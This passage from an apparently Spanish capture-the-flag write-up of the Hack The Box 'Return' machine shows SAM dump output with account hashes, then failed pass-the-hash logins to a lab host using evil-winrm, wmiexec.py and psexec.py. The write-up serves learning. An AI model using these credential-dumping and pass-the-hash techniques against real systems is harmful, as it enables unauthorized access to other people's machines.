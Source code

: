 ```csharp
nt_hashoffset = 260, nt_size = 18
******************** 4 ********************
keyname = ROOT\SAM\Domains\Account\Users\000001F8
disabled = 1

username len=18, off=d0
lm_hashoffset = 1fc, lm_size = 0
nt_hashoffset = 1fc, nt_size = 0
******************** -1 ********************
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* ä:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Pero al tratar de conectarnos con evil-winrm nos da un error

```csharp
┌─[root@angussmoody]─[/mnt/angussMoody/Machines/Return]
└──╼ #evil-winrm -i 10.10.11.108 -u Administrator -H '31d6cfe0d16ae931b73c59d7e0c089c0'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1
```

con wmiexec nos da error también 

```csharp
┌─[✗]─[root@angussmoody]─[/mnt/angussMoody/Machines/Return]
└──╼ #wmiexec.py return.local/Administrator@10.10.11.108 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
```

Al igual con psexec

```csharp
┌─[✗]─[root@angussmoody]─[/mnt/angussMoody/Machines/Return]
└──╼ #psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -target-ip 10.10.11.108 administrator@10.10.11.108
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
```
